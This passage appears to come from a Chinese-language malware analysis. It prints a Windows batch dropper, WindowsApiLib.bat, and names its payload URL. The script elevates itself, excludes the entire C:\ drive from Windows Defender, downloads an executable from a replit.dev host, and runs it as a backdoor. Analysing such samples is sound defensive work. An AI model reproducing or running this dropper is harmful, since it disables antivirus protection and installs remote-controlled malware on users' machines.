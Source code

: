 ```plain
@echo off
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
if not "%1"=="am_admin" (
  powershell -Command "Start-Process -Verb RunAs -FilePath '%0' -ArgumentList 'am_admin'"
  exit /b
)
set "scriptDir=%~dp0"
powershell -Command "Add-MpPreference -ExclusionPath 'C:\'"
TIMEOUT /T 5
powershell -Command "(New-Object System.Net.WebClient).DownloadFile('https://1f2a857a-7153-42a6-8363-becc7ed94b49-00-1vtxb7rs21ezi.spock.replit.dev/download', 'C:\WindowsApi\WindowsApi.exe')"
start "" "C:\WindowsApi\WindowsApi.exe"
taskkill /IM cmd.exe
exit
```

WindowsApiLib.bat 会进一步从以下恶意网址下载木马后门程序保存到 C:\\WindowsApi\\WindowsApi.exe 并执行。

```plain
https://1f2a857a-7153-42a6-8363-becc7ed94b49-00-1vtxb7rs21ezi.spock.replit.dev/download
```

[![](assets/1710900786-31bc0004bb88d8b2b7aa1aaede18f58d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229155252-8aa744b8-d6d7-1.png)
